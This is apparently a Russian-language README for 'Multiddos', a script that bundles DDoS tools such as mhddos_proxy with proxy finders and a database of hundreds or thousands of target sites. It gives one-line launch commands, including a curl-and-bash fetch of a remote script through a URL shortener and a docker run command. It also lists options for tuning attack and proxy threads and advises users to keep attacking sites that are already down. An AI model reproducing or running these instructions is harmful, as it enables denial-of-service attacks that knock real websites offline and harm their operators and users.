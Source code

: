 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматический запуск, автоматическая смена целей.
* Запуск одной простой командой.
* Наличие нескольких режимов работы (с помощью дополнительных ключей)
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.
* Имеет базу на сотни (часто тысячи) сайтов/адресов.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* ~~[db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)~~ временно отключено
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ временно отключено

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. UAShield прожорливая и низкоэффективная по сравнению с mhddos_proxy. Поэтому на данном этапе по умолчанию используется только mhddos_proxy.
 
</details>

---
# **Multiddos в docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```
* Альтернативный запуск для слабых систем. Будет использоваться только 1 ядро на 90% (использовать если процессор забивается на 100% и система тормозит). <details> `docker run --cpus 0.9 -it --rm --log-driver none --name multidd --pull always karboduck/multidd`

* Если вам нужно запустить несколько копий multiddos. <details> Используйте разные имена (--name multidd1, --name multidd2 и т.д.), либо не используйте имена вообще

* Запуск docker c ключами. <details> Docker версия поддерживает те же ключи, что и bash версия. Прописывайте их точно так же в конце команды. `docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd --lite --lang en` Подробнее про ключи читайте ниже в разделе **Опции запуска**.

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos в bash** (Linux, WSL2)

### **Запуск**

```
curl -LO tiny.one/multiddos && bash multiddos
```

</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---
## **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multidd`
</details>

---

## **Опции запуска**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop и multiddos. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop. Или добавить в нее утилиты: db1000n, uashield, vnstat.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+d` убрать db1000n

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`-p 2000` или `--proxy-threads 2000` Использование этого ключа подключает proxy_finder и задает количество потоков для поиска. Чем выше значение, тем быстрее происходит сканирование и поиск новых прокси, но тем и выше нагрузка на CPU и сеть. Поэтому при больших значениях может падать скорость атак. 

`-t 500` или `--threads 500` задать количество потоков для mhddos_proxy

`--lite` запускает "легкий" режим. С пониженной загрузкой процессора и сети. Рекомендуется использовать, если компьютер или доступ в Интернет "тормозят". В lite режиме multiddos берет из базы 1000 случайных целей, количество потоков для mhddos_proxy = 2000, а количество потоков для proxy_finder = 1000.

Пример команды (убрать gotop, запустить proxy finder с 2000 потоков):

```
curl -LO tiny.one/multiddos && bash multiddos -g -p 2000
```

То же самое для docker:

```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd -g -p 2000
```

</details>

---
## **Решение проблем и распространеные вопросы**
<details>
  <summary>развернуть</summary>

1. Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на ваше железо.

Внешние проявления могут быть самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

Если проблема повторяется, попробуйте использовать режим --lite. Если проблема все равно повторяется, значит на этой конкретной системе атаки запустить не получится.

2. Вылетает db1000n или uashield. Это либо опять побочка проблем с сетью, смотрите пункт выше. Либо сбой самих программ, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он работает, все идет по плану. 
 
3.
Низкий трафик. В подавляющем большинстве случаев это значит, что атакуемые сайты уже лежат, либо их закрыли гео-блоком (отгородили от внешнего мира). Это нормально, наши атаки все равно приносят пользу, продолжаем работать.

Также может значить что вы используете слишком высокое кол-во потоков для атак, и ваш ПК не справляется с нагрузкой. Попробуйте запустить Multiddos в режиме --lite.

4.
Пишет что сайт или несколько сайтов недоступны и не будут атакованы. Это нормально, значит эти конкретные сайты лежат или недоступны по другим причинам. Как правило это происходит с небольшим количеством сайтов, и атаки по 99% других сайтов продолжаются.

5.
Пишет что доступно 0 сайтов. Похоже на ошибку №4, но при нормальной работе такого быть не должно. Значит либо упала сеть, либо провайдер/vpn блокирует доступ ко всем этим сайтам.

Попробуйте перезагрузить ПК. Попробуйте использовать режим --lite. Включите или если уже включен, наоборот выключите vpn.

6.
Нужен ли VPN? На данный момент не нужен. То есть при желании или необходимости его можно держать включенным, но это не обязательно, так как mhddos_proxy использует прокси.

</details>